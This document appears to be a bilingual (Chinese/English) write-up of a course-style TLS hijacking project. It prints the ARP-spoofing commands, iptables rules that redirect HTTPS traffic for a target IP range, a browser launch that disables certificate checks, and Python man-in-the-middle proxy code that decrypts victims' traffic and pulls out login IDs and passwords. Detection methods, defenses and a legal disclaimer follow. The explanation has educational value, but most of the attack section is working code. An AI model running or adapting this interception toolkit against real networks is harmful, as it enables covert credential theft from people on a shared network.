

# Script Analysis - TLS Connection Hijacking

## 腳本詳細分析 (Detailed Script Analysis)

### 1. setup.sh - 攻擊者環境設定

```bash
#!/bin/bash
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -F
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -m iprange --dst-range 140.113.0.0-140.113.255.255 -j REDIRECT --to-port 8080

sudo python ./attack.py 192.168.2.133 ens33
```

#### 功能說明:
- **IP 轉發啟用**: `net.ipv4.ip_forward=1` 允許系統轉發 IP 封包
- **iptables 規則清除**: `-F` 清除所有現有的 NAT 規則
- **流量重定向**: 將目標 IP 範圍 (140.113.x.x) 的 HTTPS 流量重定向到 port 8080
- **攻擊程式啟動**: 執行 Python 攻擊腳本

#### 參數解釋:
- `-t nat`: 使用 NAT 表
- `-A PREROUTING`: 在 PREROUTING 鏈中添加規則
- `-p tcp --dport 443`: 匹配 TCP 協定的 443 port (HTTPS)
- `-m iprange --dst-range`: 匹配目標 IP 範圍
- `-j REDIRECT --to-port 8080`: 重定向到 port 8080

### 2. victim_setup.sh - 受害者環境設定

```bash
google-chrome --ignore-certificate-errors --user-data-dir=/tmp/chrome_dev
```

#### 功能說明:
- **忽略證書錯誤**: `--ignore-certificate-errors` 讓瀏覽器忽略 SSL 證書驗證錯誤
- **獨立用戶資料**: `--user-data-dir=/tmp/chrome_dev` 使用臨時目錄避免影響正常瀏覽

#### 安全風險:
- 此設定會讓受害者忽略所有 SSL 證書警告
- 使攻擊者能夠使用自簽名證書成功建立連接

### 3. arpspoof.sh - ARP 欺騙腳本

```bash
sudo arpspoof -i ens33 -t 192.168.2.2 192.168.2.133
sudo arpspoof -i ens33 -t 192.168.2.133 192.168.2.2
```

#### 功能說明:
- **雙向 ARP 欺騙**: 同時欺騙受害者和網關
- **網路介面指定**: `-i ens33` 指定使用的網路介面
- **目標指定**: `-t` 參數指定要欺騙的目標

#### ARP 欺騙原理:
1. 告訴受害者 (192.168.2.133) 攻擊者的 MAC 地址是網關的 MAC
2. 告訴網關 (192.168.2.2) 攻擊者的 MAC 地址是受害者的 MAC
3. 所有流量都會經過攻擊者

## 攻擊程式詳細分析 (Attack Program Analysis)

### attack.py 核心功能

#### 1. 網路介面自動偵測
```python
def get_interface_name():
    result = subprocess.check_output("ls /sys/class/net", shell=True, text=True)
    interfaces = result.strip().split('\n')
    
    for name in interfaces:
        if (name != 'lo'):  # 排除 loopback 介面
            return name
    return 'lo'
```

**功能**: 自動偵測可用的網路介面，優先選擇非 loopback 介面

#### 2. 憑證擷取機制
```python
def extract_info(request):
    match = re.search(b"\nid=([^&]+)&pwd=([^&]+)", request)
    if match:
        user_id = match.group(1).decode()
        password = match.group(2).decode()
        print(f"id: {urllib.parse.unquote(user_id)}, password: {urllib.parse.unquote(password)}")
```

**功能**: 
- 使用正則表達式從 HTTP POST 請求中擷取登入憑證
- 支援 URL 編碼的參數解碼
- 即時顯示擷取的憑證

#### 3. MITM 代理核心
```python
def mitm_proxy(client_socket, victim_ip):
    # 1. 接收受害者請求
    request = b""
    while True:
        chunk = client_socket.recv(4096)
        if not chunk:
            break
        request += chunk
    
    # 2. 擷取憑證
    extract_info(request)
    
    # 3. 解析目標主機
    lines = request.split(b"\r\n")
    host = None
    for line in lines:
        if line.startswith(b"Host:"):
            host = line.split(b" ")[1].decode()
            break
    
    # 4. 建立與真正伺服器的連接
    server_socket = socket.create_connection((host, 443))
    context = ssl.create_default_context()
    server_socket = context.wrap_socket(server_socket, server_hostname=host)
    
    # 5. 轉發請求和回應
    server_socket.sendall(request)
    while True:
        response = server_socket.recv(4096)
        if not response:
            break
        client_socket.sendall(response)
```

**功能**:
- 接收受害者的 HTTPS 請求
- 擷取登入憑證
- 解析目標主機
- 建立與真正伺服器的 TLS 連接
- 雙向轉發請求和回應

#### 4. SSL 伺服器設定
```python
def start_https_listener(interface):
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind(("0.0.0.0", 8080))
    server_socket.listen(5)
    
    context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
    context.load_cert_chain(certfile=CERT_FILE, keyfile=KEY_FILE)
    
    while True:
        client_socket, client_addr = server_socket.accept()
        client_socket = context.wrap_socket(client_socket, server_side=True)
        
        thread = threading.Thread(target=mitm_proxy, args=(client_socket, client_addr[0]))
        thread.start()
```

**功能**:
- 建立 TCP 伺服器監聽 port 8080
- 使用自簽名證書建立 SSL 上下文
- 為每個連接啟動獨立執行緒
- 支援多個同時連接

## 攻擊流程圖 (Attack Flow Diagram)



## 技術實現細節 (Technical Implementation Details)

### SSL/TLS 處理
- **受害者 → 攻擊者**: 使用自簽名證書建立 TLS 連接
- **攻擊者 → 伺服器**: 使用預設 SSL 上下文建立 TLS 連接
- **證書驗證**: 攻擊者忽略證書驗證錯誤

### 網路配置
- **監聽地址**: 0.0.0.0:8080 (所有介面)
- **連接處理**: 多執行緒支援多個同時連接
- **超時設定**: 2 秒 socket 超時防止阻塞

### 錯誤處理
- **Socket 超時**: 防止連接阻塞
- **異常捕獲**: 確保程式穩定運行
- **資源清理**: 正確關閉 socket 連接

## 安全考量 (Security Considerations)

### 攻擊成功條件
1. **網路位置**: 攻擊者與受害者在同一網段
2. **權限要求**: 攻擊者需要 root 權限
3. **用戶行為**: 受害者忽略 SSL 證書警告
4. **網路配置**: 目標網路沒有防護措施

### 檢測方法
1. **ARP 表監控**: 檢查重複的 MAC 地址
2. **流量分析**: 監控異常的網路流量模式
3. **證書驗證**: 檢查 SSL 證書的有效性
4. **網路延遲**: 監控網路延遲異常

### 防護措施
1. **靜態 ARP 表**: 使用靜態 ARP 條目防止欺騙
2. **證書釘選**: 在應用程式中硬編碼證書指紋
3. **網路分段**: 使用 VLAN 隔離網路
4. **入侵檢測**: 部署 IDS/IPS 系統
5. **用戶教育**: 教育用戶識別安全警告

## 法律和道德考量 (Legal and Ethical Considerations)

### 合法使用場景
- 網路安全教育和研究
- 授權的滲透測試
- 自己的網路環境測試
- 安全產品開發和測試

### 非法使用場景
- 未經授權的網路監聽
- 竊取他人憑證
- 商業間諜活動
- 任何惡意目的

### 責任聲明
使用者必須確保：
1. 獲得所有必要的授權
2. 遵守當地法律法規
3. 只用於合法目的
4. 承擔所有相關責任

## 結論 (Conclusion)

此專案展示了 TLS 連接劫持的完整實現，包括：
- ARP 欺騙技術
- 網路流量重定向
- SSL/TLS 代理實現
- 憑證擷取機制

理解這些技術有助於：
1. 提高網路安全意識
2. 開發更好的防護機制
3. 進行有效的安全評估
4. 教育用戶安全最佳實踐

記住，這些技術應該只用於合法的安全研究和教育目的。
